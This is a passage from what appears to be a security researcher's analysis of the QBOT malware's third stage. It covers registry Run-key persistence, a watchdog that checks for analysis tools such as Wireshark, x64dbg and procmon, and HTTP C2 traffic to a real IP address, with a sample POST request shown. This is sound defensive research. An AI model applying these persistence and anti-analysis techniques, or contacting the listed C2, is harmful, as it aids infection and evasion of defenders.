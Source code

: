 ![QBOT running as SYSTEM service](/assets/images/qbot-malware-analysis/15qbot.png)

### Stage 3

![Third stage execution flow](/assets/images/qbot-malware-analysis/16qbot.png)

QBOT begins its third stage by registering a window and console event handler to monitor suspend/resume and shutdown/reboot events. Monitoring these events enables the malware to install persistence dynamically by dropping a copy of the QBOT binary in the persistence folder and creating a value under the **CurrentVersion\Run** registry key:

![QBOT install persistence when suspend/resume or shutdown/reboot event occurs](/assets/images/qbot-malware-analysis/7qbot.png)

At reboot, QBOT will take care of deleting any persistence artifacts.

The malware will proceed to creating a watchdog thread to monitor running processes against a hardcoded list of binaries every second. If any process matches, a registry value is set that will then change QBOT behavior to use randomly generated IP addresses instead of the real one, thus never reaching its command and control:

|                                                                                                                                                                          |                                                                                                                                           |                                                                                                                                                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| frida-winjector-helper-32.exefrida-winjector-helper-64.exeTcpdump.exewindump.exeethereal.exewireshark.exeettercap.exertsniff.exepacketcapture.execapturenet.exeqak_proxy | dumpcap.exeCFF Explorer.exenot_rundll32.exeProcessHacker.exetcpview.exefilemon.exeprocmon.exeidaq64.exePETools.exeImportREC.exeLordPE.exe | SysInspector.exeproc_analyzer.exesysAnalyzer.exesniff_hit.exejoeboxcontrol.exejoeboxserver.exeResourceHacker.exex64dbg.exeFiddler.exesniff_hit.exesysAnalyzer.exe |

QBOT will then load its domains from one of its **.rsrc** files and from the registry as every domain update received from its C2 will be part of its configuration written to the registry. See Extracted Network Infrastructure in Appendix A.

Finally, the malware starts communicating with C2 via HTTP and TLS. The underlying protocol uses a JSON object encapsulated within an enciphered message which is then base64-encoded:

![QBOT message format](/assets/images/qbot-malware-analysis/8qbot.png)

Below an example of a HTTP POST request sent by QBOT to its C2:

```
Accept: application/x-shockwave-flash, image/gif, image/jpeg, image/pjpeg, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 181.118.183.98
Content-Length: 77
Cache-Control: no-cache

qxlbjrbj=NnySaFAKLt+YgjH3UET8U6AUwT9Lg51z6zC+ufeAjt4amZAXkIyDup74MImUA4do4Q==
```

Through this communication channel, QBOT receives commands from C2 — see Appendix B (Command Handlers). Aside from management commands (update, configuration knobs), our sample only handles binary execution-related commands, but we know that the malware is modular and can be built with additional features like a VNC server, a reverse shell server, proxy support (to be part of the domains list), and numerous other capabilities are feasible.

## Features
